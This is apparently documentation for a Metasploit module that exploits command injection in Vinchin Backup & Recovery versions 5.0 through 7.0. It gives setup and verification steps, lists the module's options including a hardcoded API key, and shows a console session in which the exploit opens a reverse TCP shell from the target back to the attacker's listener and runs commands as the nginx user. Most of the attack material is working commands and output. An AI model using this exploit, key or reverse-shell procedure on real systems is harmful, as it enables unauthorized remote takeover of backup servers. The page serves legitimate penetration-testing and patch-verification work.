 ## Vulnerable Application

This module exploits a vulnerability in Vinchin Backup & Recovery versions 5.0.*, 6.0.*, 6.7.*, and 7.0.*. To prepare the environment:

1. Download Vinchin Backup & Recovery version 5.0.*, 6.0.*, 6.7.*, or 7.0.*.
2. Install the software on a Linux-based server using the downloaded ISO.
3. During the installation, ensure that the network interface is active and configured.
4. After installation, verify that the Vinchin Backup & Recovery service is operational and accessible over the network.

*Note: The module is designed to work with the specified versions. Functionality with other versions has not been confirmed.*

## Verification Steps

1. Install a vulnerable version of Vinchin Backup & Recovery (versions 5.0.*, 6.0.*, 6.7.*, or 7.0.*).
2. Start msfconsole in your Metasploit environment.
3. Do: `use exploit/linux/http/vinchin_backup_recovery_cmd_inject`
4. Set the RHOSTS to the target IP address or hostname.
5. Do: `run`
6. If the target is vulnerable, the exploit will execute the specified payload or command.

## Options

Here are the specific options for the `exploit/linux/http/vinchin_backup_recovery_cmd_inject` module:

#### RHOSTS

- **Description**: Specifies the target address or range of addresses.
- **Default Value**: None. It must be set by the user.

#### RPORT

- **Description**: The port on which the Vinchin Backup & Recovery service is running.
- **Default Value**: 443 (this is not configurable in the default Vinchin Backup & Recovery setup).

#### SSL

- **Description**: Specifies whether to use SSL for the connection.
- **Default Value**: True, as Vinchin typically runs over HTTPS.

#### TARGETURI

- **Description**: The base path to the Vinchin Backup & Recovery application.
- **Default Value**: `/api/`

#### APIKEY

- **Description**: The hardcoded API key required to authenticate to the API.
- **Default Value**: `6e24cc40bfdb6963c04a4f1983c8af71`

## Scenarios

### Successful Exploitation against Vinchin Backup & Recovery 6.7.*

This scenario demonstrates exploiting the Vinchin Backup & Recovery version 6.7.* on a Linux server.

**Environment**:
- Vinchin Backup & Recovery 6.7.*
- Linux Server
- Metasploit Framework

**Steps**:

1. Start `msfconsole`.
2. Load the exploit module:
```
use exploit/linux/http/vinchin_backup_recovery_cmd_inject
```
4. Set the required options:
```
set RHOSTS [target IP]
set APIKEY [API Key]
```
5. Optionally set a payload and configure LHOST and LPORT.
6. Execute the exploit:
```
exploit
```

**Expected Output**:

```
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > options

Module options (exploit/linux/http/vinchin_backup_recovery_cmd_inject):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   APIKEY     6e24cc40bfdb6963c04a4  yes       The hardcoded API key
              f1983c8af71
   Proxies                           no        A proxy chain of format type:host:
                                               port[,type:host:port][...]
   RHOSTS                            yes       The target host(s), see https://do
                                               cs.metasploit.com/docs/using-metas
                                               ploit/basics/using-metasploit.html
   RPORT      443                    yes       The target port (TCP)
   SSL        true                   no        Negotiate SSL/TLS for outgoing con
                                               nections
   SSLCert                           no        Path to a custom SSL certificate (
                                               default is randomly generated)
   TARGETURI  /api/                  yes       The base path to the Vinchin Backu
                                               p & Recovery application
   URIPATH                           no        The URI to use for this exploit (d
                                               efault is random)
   VHOST                             no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to lis
                                       ten on. This must be an address on the loc
                                       al machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be spec
                                     ified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set rhosts 192.168.1.3
rhosts => 192.168.1.3
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set lhost 192.168.1.5
lhost => 192.168.1.5
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > check

[*] HTTP Response Code: 200
[*] Detected Vinchin version: 7.0.1.26282
[+] 192.168.1.3:443 - The target is vulnerable.
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Sending payload...
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.3:59354) at 2023-11-16 17:47:30 +0100
SHELL=/bin/bash script -q /dev/null

bash-4.2$ id
uid=994(nginx) gid=992(nginx) groups=992(nginx)

```
